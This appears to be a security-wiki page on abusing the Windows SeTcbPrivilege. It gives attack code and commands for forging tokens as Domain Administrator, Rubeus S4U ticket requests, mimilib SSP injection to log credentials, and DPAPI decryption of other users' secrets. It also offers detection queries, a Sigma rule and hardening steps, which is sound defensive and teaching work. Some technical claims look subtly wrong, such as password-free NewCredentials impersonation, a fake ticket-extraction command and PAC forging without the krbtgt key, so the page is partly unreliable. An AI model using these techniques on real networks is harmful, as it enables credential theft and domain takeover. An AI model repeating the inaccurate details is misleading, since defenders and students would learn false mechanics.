

# SeTcbPrivilege — "Act as Part of the Operating System"

## Overview

**SeTcbPrivilege** ("Act as part of the operating system") is the **single most dangerous Windows privilege**. It is more powerful than SeDebugPrivilege, more dangerous than SeBackupPrivilege, and functionally equivalent to full SYSTEM access. A process holding this privilege can:

- Create tokens for **any** user (including Domain Admins) without knowing their password
- Impersonate **any** security context on the system
- Call privileged LSA and logon APIs reserved for the Trusted Computing Base
- Bypass virtually all Windows access control mechanisms

!!! danger "Impact Summary"
    SeTcbPrivilege = Ability to become **any user** on the system, including SYSTEM, Domain Admin, or any domain user — without credentials. If an attacker obtains this privilege, **the machine is fully compromised**, and on a Domain Controller, the **entire domain is compromised**.

---

## What Is the Trusted Computing Base (TCB)?

The Windows Trusted Computing Base is the set of components that the operating system unconditionally trusts to enforce security policy. This includes:

- The kernel (`ntoskrnl.exe`)
- The Local Security Authority (`lsass.exe`)
- The Session Manager (`smss.exe`)
- Service Control Manager (`services.exe`)

When a process holds SeTcbPrivilege, Windows treats it as **part of the TCB** — meaning it has the same level of trust as the kernel itself. It can call internal LSA APIs that normal processes (even Administrator processes) cannot access.

---

## Privilege Properties

| Property | Detail |
|---|---|
| **Internal Name** | `SeTcbPrivilege` |
| **Display Name** | "Act as part of the operating system" |
| **Default Assignment** | SYSTEM only (LocalSystem account) |
| **Who Has It** | `NT AUTHORITY\SYSTEM`, and any account explicitly granted it via Local Security Policy / GPO |
| **Risk Level** | 🔴🔴🔴 Maximum — equivalent to kernel-level trust |
| **Typical Misassignments** | Service accounts for middleware, old IIS app pools, SAP, Oracle, custom enterprise apps |

!!! warning "Extremely Rare — But Not Zero"
    Unlike SeBackupPrivilege which is routinely over-assigned, SeTcbPrivilege is almost never deliberately given to non-SYSTEM accounts. However, it does appear in the wild on: legacy service accounts migrated from Windows NT/2000, middleware platforms that demand it (older SAP versions, Oracle, some ERP systems), and misconfigured Group Policy templates.

---

## Enumeration

### Check If Your Token Has It

```powershell
whoami /priv | findstr /i "SeTcbPrivilege"
```

Output if present:

```
SeTcbPrivilege                Act as part of the operating system   Enabled
```

### Check Who Has It System-Wide

```powershell
# Export local security policy
secedit /export /cfg C:\temp\secpol.cfg
Select-String "SeTcbPrivilege" C:\temp\secpol.cfg
```

Expected safe output:

```
SeTcbPrivilege =
```

(Empty = only SYSTEM has it, which is the default and expected configuration.)

If you see ANY account SIDs or names listed, that's a finding.

### Domain-Wide GPO Audit

```powershell
# Check all GPOs for SeTcbPrivilege assignments
Get-GPOReport -All -ReportType XML | Select-String "SeTcbPrivilege" -Context 2
```

---

## Exploitation Technique 1: Token Creation (LsaLogonUser)

The primary exploitation vector for SeTcbPrivilege is calling the **`LsaLogonUser()`** API with custom logon type, allowing you to create tokens for **arbitrary users without knowing their passwords**.

### How It Works

When you hold SeTcbPrivilege, you can call `LsaLogonUser()` with:

- **`LOGON32_LOGON_NEW_CREDENTIALS`** — Creates a token with any identity you specify
- **Custom auth packages** — The Negotiate/Kerberos auth packages accept token creation from TCB callers

```c
// Pseudocode — TCB-privileged token creation
HANDLE hToken;
LSA_STRING authPackage = "Negotiate";
LUID logonId;

// Create a token AS the Domain Admin — no password needed
LsaLogonUser(
    hLsa,
    &originName,
    Network,                    // Logon type
    authPackageId,
    &authInfo,                  // Contains target identity
    authInfoLength,
    NULL,                       // No additional groups
    &tokenSource,
    (PVOID*)&profileBuffer,
    &profileBufferLength,
    &logonId,
    &hToken,                    // ← Output: token for ANY user
    &quotas,
    &subStatus
);

// Now impersonate using this token
ImpersonateLoggedOnUser(hToken);
// You ARE now that user — all access checks pass
```

### Practical Tool: James Forshaw's NtObjectManager

```powershell
# Using NtObjectManager (PowerShell)
Import-Module NtObjectManager

# Create an impersonation token for any user
$token = Get-NtToken -Logon -LogonType NewCredentials -User "DOMAIN\Administrator" -AuthenticationPackage Negotiate

# Impersonate
Set-NtToken -Token $token

# Verify — you are now Domain Admin
whoami
# Output: DOMAIN\Administrator
```

---

## Exploitation Technique 2: S4U (Service-for-User) Kerberos Abuse

With SeTcbPrivilege, you can leverage the **S4U2Self** Kerberos extension to obtain service tickets for any user — effectively performing a constrained delegation attack without needing any delegation configuration.

### Background: What Is S4U2Self?

S4U2Self allows a service to obtain a Kerberos service ticket to itself **on behalf of any user**. Normally, this requires the service account to be configured for constrained delegation. But with SeTcbPrivilege, you can call S4U2Self from **any** account — the TCB trust level bypasses the delegation requirement.

### Exploitation Flow



### Using Rubeus for S4U

```powershell
# If running as a service account with SeTcbPrivilege
# Request a ticket for Administrator via S4U2Self
.\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs/dc01.corp.local /ptt
```

---

## Exploitation Technique 3: Direct SYSTEM Impersonation

If you have SeTcbPrivilege in your token but are not yet running as SYSTEM, you can directly create a SYSTEM-level token:

### Method A: Named Pipe Impersonation

```powershell
# Create a named pipe, connect to it as SYSTEM via service trigger
# Then impersonate the connecting SYSTEM token
# Tools: PrintSpoofer, GodPotato, JuicyPotato variants
```

### Method B: Token Duplication from SYSTEM Process

```powershell
# Open a SYSTEM process token and duplicate it
$systemProc = Get-Process -Name "winlogon" | Select-Object -First 1
# With SeTcbPrivilege, you can open ANY process token regardless of DACL
# Then duplicate and impersonate
```

### Method C: CreateProcessAsUser with Fabricated Token

```c
// Create a token for SYSTEM, then spawn a process
CreateProcessAsUser(
    hSystemToken,       // Token we fabricated via LsaLogonUser
    "cmd.exe",          // Process to spawn
    NULL,
    NULL, NULL,
    FALSE,
    CREATE_NEW_CONSOLE,
    NULL, NULL,
    &si, &pi
);
```

---

## Exploitation Technique 4: Credential Extraction via LSA Manipulation

With TCB-level trust, your process can interact with LSASS internals:

### Dump Credentials Without Touching LSASS Memory

Traditional credential dumping (Mimikatz) reads LSASS process memory. SeTcbPrivilege offers a cleaner approach — calling LSA APIs directly:

```powershell
# Using NtObjectManager
$creds = Get-NtToken -Logon -LogonType Interactive -User "DOMAIN\target" -AuthenticationPackage Kerberos

# Extract Kerberos tickets from the logon session
Get-NtToken -Linked | Get-NtTokenPrivilege
```

### Access Security Account Manager Directly

TCB processes can call SAM RPC interfaces without going through the normal access check path, allowing enumeration and modification of local accounts.

---

## Exploitation Technique 5: DPAPI Master Key Extraction

With SeTcbPrivilege, you can call **`CryptUnprotectData()`** in the context of **any user** by first impersonating them via token fabrication. This allows decrypting:

- Saved browser passwords (Chrome, Edge)
- Windows Credential Manager entries
- Wi-Fi passwords
- RDP saved credentials
- Certificate private keys

```powershell
# Impersonate target user via SeTcbPrivilege token creation
# Then call DPAPI in their context
$decrypted = [System.Security.Cryptography.ProtectedData]::Unprotect(
    $encryptedBlob,
    $null,
    [System.Security.Cryptography.DataProtectionScope]::CurrentUser
)
```

---

## Exploitation Technique 6: WDigest / SSP Injection

A TCB-level process can call `AddSecurityPackage()` to inject a custom Security Support Provider (SSP) into LSASS. This captures credentials in cleartext as users authenticate:

```c
// With SeTcbPrivilege, inject a custom SSP
AddSecurityPackage("C:\\temp\\mimilib.dll", NULL);
// Now all future logons are captured to C:\Windows\System32\kiwissp.log
```

This is the technique Mimikatz uses for its `misc::memssp` command — but normally requires SYSTEM. SeTcbPrivilege provides an equivalent trust level.

---

## Exploitation Technique 7: Forge Kerberos PAC (on Domain Controllers)

On a Domain Controller with SeTcbPrivilege, you can interact with the KDC directly to forge Privilege Attribute Certificates, effectively creating Golden Tickets without needing the `krbtgt` hash:

The TCB trust level allows calling internal KDC APIs to construct tickets with arbitrary PAC contents — user SIDs, group memberships, and resource SIDs — signed by the DC's own keys.

---

## Real-World Scenarios Where SeTcbPrivilege Is Found

| Scenario | How It Happens |
|---|---|
| **Compromised SYSTEM service** | Any service running as LocalSystem has SeTcbPrivilege by default |
| **SAP service accounts** | Older SAP installations require SeTcbPrivilege for RFC connections |
| **Oracle database services** | Some Oracle configurations request this privilege |
| **Migrated NT4 accounts** | Legacy accounts from Windows NT migrations may retain it |
| **Custom GPO misconfiguration** | Admin accidentally assigns via "User Rights Assignment" |
| **IIS Application Pools** | Older configurations running as LocalSystem |

---

## Attack Chain: From SeTcbPrivilege to Domain Admin

```mermaid
flowchart TD
    A["🔑 Obtain Account with<br/>SeTcbPrivilege"] --> B["Enable Privilege<br/>in Token"]
    B --> C{"On a Domain<br/>Controller?"}
    
    C -->|Yes| D["LsaLogonUser as<br/>Domain Admin"]
    C -->|No| E["LsaLogonUser as<br/>Local SYSTEM"]
    
    D --> F["DCSync / Golden Ticket<br/>Full Domain Compromise"]
    E --> G["Extract Credentials<br/>from LSASS"]
    G --> H["Lateral Movement<br/>to Domain Controller"]
    H --> D
    
    style A fill:#2d1b69,stroke:#bb86fc
    style F fill:#4a0000,stroke:#ff4444
```



---

## Detection & Monitoring

### Critical Event IDs

| Event ID | Log | What To Watch For |
|---|---|---|
| **4672** | Security | Special privileges assigned to new logon — alert if SeTcbPrivilege appears for non-SYSTEM accounts |
| **4673** | Security | Privileged service called — LsaLogonUser, LsaRegisterLogonProcess |
| **4624** | Security | Logon events with logon type 9 (NewCredentials) from unexpected processes |
| **4648** | Security | Explicit credential logon — may indicate S4U abuse |

### KQL Detection

```kql
SecurityEvent
| where EventID == 4672
| where PrivilegeList has "SeTcbPrivilege"
| where SubjectUserName != "SYSTEM" and SubjectUserName !endswith "$"
| project TimeGenerated, Computer, SubjectUserName, SubjectDomainName, LogonId
```

### Sigma Rule

```yaml
title: SeTcbPrivilege Assigned to Non-SYSTEM Account
status: stable
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4672
    PrivilegeList|contains: 'SeTcbPrivilege'
  filter:
    SubjectUserName:
      - 'SYSTEM'
      - 'LOCAL SERVICE'
      - 'NETWORK SERVICE'
  condition: selection and not filter
level: critical
```

---

## Mitigation & Hardening

### 1. Never Assign SeTcbPrivilege to Service Accounts

This is the golden rule. There is almost **no legitimate reason** for a non-SYSTEM account to hold this privilege in a modern Windows environment. If a vendor demands it:

- Challenge the requirement — it's usually based on outdated documentation
- Isolate the service on a dedicated, hardened server
- Monitor the account aggressively

### 2. Audit and Remove Existing Assignments

```powershell
# Find machines where SeTcbPrivilege is assigned to non-default accounts
Invoke-Command -ComputerName (Get-ADComputer -Filter * | Select -Expand Name) -ScriptBlock {
    $cfg = secedit /export /cfg "$env:TEMP\secpol.cfg" 2>$null
    $tcb = Select-String "SeTcbPrivilege" "$env:TEMP\secpol.cfg"
    if ($tcb -and $tcb -notmatch "= $") {
        [PSCustomObject]@{
            Computer = $env:COMPUTERNAME
            Setting = $tcb.Line
        }
    }
}
```

### 3. Use Group Managed Service Accounts (gMSA)

gMSAs run services without SeTcbPrivilege unless explicitly required. They also prevent password reuse and eliminate manual password rotation.

### 4. Implement Credential Guard

Windows Credential Guard uses virtualization-based security to protect LSASS. Even with SeTcbPrivilege, an attacker cannot extract credentials from the isolated credential process.

### 5. Tier 0 Isolation

Any system where SeTcbPrivilege exists should be treated as **Tier 0** and protected with:

- No internet access
- No standard user logon
- Restricted admin jump servers only
- Full audit logging shipped to SIEM

---

## Comparison: SeTcbPrivilege vs Other Dangerous Privileges

| Privilege | What It Grants | Domain Compromise Path |
|---|---|---|
| **SeTcbPrivilege** | Become ANY user, create tokens, call internal LSA APIs | Direct — fabricate DA token |
| **SeDebugPrivilege** | Read/write any process memory | LSASS dump → credentials |
| **SeBackupPrivilege** | Read any file bypassing DACLs | NTDS.dit extraction |
| **SeRestorePrivilege** | Write any file bypassing DACLs | DLL hijack / ACL manipulation |
| **SeImpersonatePrivilege** | Impersonate tokens from named pipes | Potato attacks → SYSTEM |
| **SeAssignPrimaryTokenPrivilege** | Assign tokens to processes | Token theft from services |
| **SeLoadDriverPrivilege** | Load kernel drivers | Kernel code execution |

SeTcbPrivilege is the **most direct** path to compromise — it doesn't require chaining with other techniques.

---

## Tools Reference

| Tool | Platform | Use Case |
|---|---|---|
| **NtObjectManager** | PowerShell | Token creation, impersonation, S4U via TCB |
| **Rubeus** | Windows/.NET | S4U2Self/S4U2Proxy Kerberos abuse |
| **Mimikatz** | Windows/C | SSP injection, token manipulation |
| **SweetPotato** | Windows/.NET | SYSTEM token impersonation from service |
| **GodPotato** | Windows/.NET | Universal privilege escalation |
| **SharpToken** | Windows/.NET | Token enumeration and impersonation |
| **Cobalt Strike** | Commercial | `make_token` and `steal_token` commands |

---

## References

- [Microsoft — Act as Part of the Operating System](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/act-as-part-of-the-operating-system)
- [James Forshaw — Windows Security Internals (Book)](https://nostarch.com/windows-security-internals)
- [SpecterOps — Token Manipulation Techniques](https://posts.specterops.io)
- [HackTricks — SeTcbPrivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
- [CPTS — Windows Privilege Escalation Module](https://academy.hackthebox.com)
